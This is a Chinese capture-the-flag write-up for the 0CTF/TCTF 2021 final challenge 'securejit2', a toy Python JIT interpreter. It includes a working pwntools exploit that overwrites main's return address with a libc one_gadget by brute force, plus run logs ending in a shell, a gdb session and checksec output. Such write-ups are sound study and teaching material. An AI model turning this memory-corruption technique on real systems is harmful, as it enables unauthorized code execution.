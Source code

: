 ```yaml
---
title:  0CTF / TCTF 2021 final securejit2
categories:
- CTF/Pwn
tags: 
---
```


> 和xkt共同完成，题目是一个用python3运行的简易python解释器，可以任意地址写，读内存的功能被patch了。比赛时因为没发现ubuntu18.04默认的python3是没开PIE且GOT表可写的，所以采取了野蛮的解法：任意地址写，可以泄露栈地址，所以直接写栈上的main函数返回地址为one_gadget，复用main函数返回到的libc_start_main地址的高字节，写低三字节，需要爆破1.5字节，概率为1/4096。

附件：[securejit2.tgz](https://xuanxuanblingbling.github.io/assets/attachment/securejit2.tgz)

- [https://benhoyt.com/writings/pyast64/](https://benhoyt.com/writings/pyast64/)
- [https://github.com/benhoyt/pyast64](https://github.com/benhoyt/pyast64)

本地exp如下，仅限ubuntu18.04，不太稳定，可能需要多次运行：

```python
from pwn import *

payload = '''
def f():
    b = array(16)
    a = b + 2219
    a[0] = 0xaec41c * 0x100000 * 0x100000
'''

f = open("payload",'w')
f.write(payload)
f.close()

while(1):
    try:
        io = process(["python3","pyast64.py","payload"])
        io.sendline("ls");io.recv()
        io.sendline("ls");io.recv()
        io.sendline("ls");io.recv()
        break
    except:
        io.close()

io.interactive()
```

1/4096，比较看人品，比赛时候远程5分钟就出了：

```python
➜  python exp.py
[+] Starting local process '/usr/bin/python3': pid 61825
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61825)
[+] Starting local process '/usr/bin/python3': pid 61835
[*] Stopped process '/usr/bin/python3' (pid 61835)
[+] Starting local process '/usr/bin/python3': pid 61855
[*] Stopped process '/usr/bin/python3' (pid 61855)
[+] Starting local process '/usr/bin/python3': pid 61863
[*] Process '/usr/bin/python3' stopped with exit code -6 (SIGABRT) (pid 61863)
[+] Starting local process '/usr/bin/python3': pid 61871
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61871)
[+] Starting local process '/usr/bin/python3': pid 61879
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61879)
[+] Starting local process '/usr/bin/python3': pid 61887
[*] Stopped process '/usr/bin/python3' (pid 61887)
[+] Starting local process '/usr/bin/python3': pid 61895
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61895)
[+] Starting local process '/usr/bin/python3': pid 61903
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61903)
[+] Starting local process '/usr/bin/python3': pid 61911
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61911)
[+] Starting local process '/usr/bin/python3': pid 61919
[*] Stopped process '/usr/bin/python3' (pid 61919)
[+] Starting local process '/usr/bin/python3': pid 61927
[*] Switching to interactive mode
core  entry  exp.py  flag  libc-2.27.so  payload  payloadback  pyast64.py  test
$  
```

gdb环境稳定getshell：

```python
➜  cat payload
def f():
    b = array(16)
    a = b + 2219
    a[0] = 0xaec41c * 0x100000 * 0x100000

➜  gdb -q --args python3 pyast64.py payload 
GEF for linux ready, type `gef' to start, `gef config' to configure
77 commands loaded for GDB 8.1.1 using Python engine 3.6
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from python3...(no debugging symbols found)...done.
gef➤  r
Starting program: /usr/bin/python3 pyast64.py payload
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
jit return: 0
process 46700 is executing new program: /bin/dash
$ ls
core  entry  exp.py  flag  libc-2.27.so  payload  pyast64.py  
$ 
```



只有0x10a41c这个gadget满足要求：

```python
➜  one_gadget libc-2.27.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

python3没开PIE：

```python
➜  cat /proc/version
Linux version 4.15.0-158-generic (buildd@lgw01-amd64-051) 
(gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) 
#166-Ubuntu SMP Fri Sep 17 19:37:52 UTC 2021

➜  checksec `which python3`
[*] '/usr/bin/python3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```